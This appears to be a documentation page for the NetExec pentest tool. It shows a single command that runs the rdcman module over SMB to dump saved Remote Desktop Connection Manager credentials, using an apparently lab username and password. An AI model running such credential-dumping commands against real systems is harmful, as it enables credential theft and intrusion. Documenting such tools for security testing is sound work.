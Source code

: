 ```yaml
---
description: Dump Remote Desktop Connection Manager credentials
---
```


# 🆕 Dump Remote Desktop Connection Manager

{% hint style="warning" %}
You need at least local admin privilege on the remote target, use option **--local-auth** if your user is a local account
{% endhint %}

```
nxc smb 192.168.56.11 -u eddard.stark -p FightP3aceAndHonor! -M rdcman
```
